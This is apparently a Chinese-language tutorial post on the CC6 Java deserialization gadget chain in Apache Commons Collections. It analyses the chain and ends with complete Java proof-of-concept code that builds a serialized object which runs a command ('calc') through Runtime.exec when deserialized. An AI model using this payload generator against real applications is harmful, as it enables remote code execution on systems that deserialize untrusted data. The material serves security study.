


### CommonsCollections CC6

CC1 链在 java 8u71 之后对 CC1 链中的 membervalue 的获取方法进行了修改，同时删掉了 checkvalue 方法，导致 CC1 链不可以使用了，所以 CC1 链同时受到 jdk 版本和外部库的约束，有没有一个链子是不受 jdk 版本的约束呢，那就是 CC6 。

#### 链条分析

原始的 CC1 链子如下，其实 CC6 的链子只是在前两步进行了修改。

**AnnotationinvcationHandler.readObject >> Proxy(AnnotationinvcationHandler) >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

CC6 的链子

**HashMap.readObject >> TiedMapEntry.hashcode >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

我们先看下 TiedMapEntry 的 hashcode 方法。



其中执行了 getvalue 方法，我们跟进一下这个方法。


可以看到，它进行了 map.get 的操作，如果我们传一个 LazyMap 给它，就会调用 LazyMap 的同名 .get 方法。

我们继续看下 hashmap.readobject 中是怎么调用的。


调用了对 key 进行了 hash 操作，那么 hash 干了什么呢？



运行了 key.hashcode 操作，如果我们传一个 TiedMapEntry 给他，他就会执行 TiedMapEntry.hashcode 那么这条链就成立了。

这里面临第一个问题，因为 map.put 方法也会调用 hashcode 方法，所以我们的进行反序列化的时候，就会把这条链走完了，所以我们需要 put 的时候先放一个没用的值，之后再反射改回来，这里你可以选择多个地方进行修改，我选择改掉，LazyMap 的 factory ，就是放 ChainedTranformer 的位置。

这里还有第二个问题，因为 TiedMapEntry 它会校验我们给他的 key 存不存在 LazyMap 中，如果不存在，他就会放进去，这就导致我们反序列化的时候不会运行 factory.transform ，可以手动调试一下看看。


可以看到我们序列化的时候 TiedMapEntry 把我们给他的 key 放进去了，导致反序列化的时候，map.containsKey 为 true， 不能正确运行到 .tranform 方法，解决方法也很简单，put之后，我们手动给他删了就行。

#### 完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
        public static void main(String[] args) throws Exception {

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
            
            HashMap<Object, Object> map = new HashMap<>();
            //先放一个没用的 factory 进去
            Map lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
            //我们用的是 map，key 就随便写了
            TiedMapEntry tiedMapEntry= new TiedMapEntry(lazymap, "aaa");
            //我们 new 一个 hashmap ，把 tiedMapEntry 放进去
            HashMap<Object, Object> map2 = new HashMap<>();
            //对 key 做 hashcode ，所以 value 随便写
            map2.put(tiedMapEntry, "bbb");
            //删掉 TiedMapEntry 放进来的 key = 'aaa'
            lazymap.remove("aaa");
            //通过反射把 factory 改回我们的 ChainedTransformer
            Class c = LazyMap.class;
            Field declaredField = c.getDeclaredField("factory");
            declaredField.setAccessible(true);
            declaredField.set(lazymap, chainedTransformer);

            serialize(map2);
            unserialize("ser");


        }

        public static void serialize(Object obj) throws IOException {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }
    }
```